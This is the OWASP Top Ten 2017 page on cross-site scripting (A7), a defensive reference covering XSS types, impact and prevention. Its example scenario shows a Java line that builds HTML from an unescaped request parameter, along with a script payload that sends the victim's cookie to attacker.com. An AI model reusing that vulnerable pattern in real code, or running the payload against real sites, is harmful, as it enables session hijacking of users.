 ```yaml
---

document: OWASP Top Ten 2017
year: 2017
order: 12
title: A7:2017-Cross-Site Scripting (XSS)
lang: en
layout: full-width-document
author:
contributors:
tags: OWASP Top Ten 2017, Top Ten, A7:2017, xss
exploitability: 3
prevalence: 3
detectability: 3
technical: 2
redirect_from:
  - OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS).html
  - OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)

---
```


{% include risk_begin.html %}
{%- include risk_description.html pos="firstLeft" -%}
Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.
{%- include risk_description.html pos="mid" -%}
XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.<br>
Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.
{%- include risk_description.html pos="right" -%}
The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.
{%- include risk_end.html -%}

{%- include t10_subsection_begin.html -%}
{%- include t10_subsection.html token="isTheApplicationVulnerable" pos="firstLeft" -%}
There are three forms of XSS, usually targeting users' browsers:<br>
* **Reflected XSS**: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.<br>
* **Stored XSS**: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.<br>
* **DOM XSS**: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.<br>

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

{%- include t10_subsection.html token="howToPrevent" pos="right" -%}
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:<br>
* Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.<br>
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data escaping techniques.<br>
* Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).<br>
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).<br>

{%- include t10_subsection.html token="exampleAttackScenarios" pos="left" -%}
**Scenario #1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:<br>
    {% include code_red_begin.html -%} (String) page += "<input name='creditcard' type='TEXT' {%- include code_red_end.html %}
    {% include code_red_begin.html -%} value='" + request.getParameter("CC") + "'>"; {%- include code_red_end.html %}

The attacker modifies the ‘CC’ parameter in the browser to:<br>
    {% include code_red_begin.html -%} '>&lt;script>document.location= {%- include code_red_end.html %}
    {% include code_red_begin.html -%} 'http://www.attacker.com/cgi-bin/cookie.cgi? {%- include code_red_end.html %}
    {% include code_red_begin.html -%} foo='+document.cookie&lt;/script>'. {%- include code_red_end.html %}

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. <br>
**Note**: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

{%- include t10_subsection.html token="references" pos="right" -%}
**OWASP**<br>
* [OWASP Proactive Controls: Encode and Escape Data](/www-project-proactive-controls/v3/en/c4-encode-escape-data)<br>
* [OWASP Proactive Controls: Validate All Inputs](/www-project-proactive-controls/v3/en/c5-validate-inputs)<br>
* [OWASP Application Security Verification Standard: V5](/www-project-application-security-verification-standard)<br>
* [OWASP Testing Guide: Testing for Reflected XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for Stored XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for DOM XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client_Side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)<br>
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: XSS Filter Evasion](/www-community//xss-filter-evasion-cheatsheet)<br>
* [OWASP Java Encoder Project](/www-project-java-encoder) ([old wiki](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project))<br>
<br>
**External**<br>
* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)<br>
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
{% include t10_subsection_end.html %}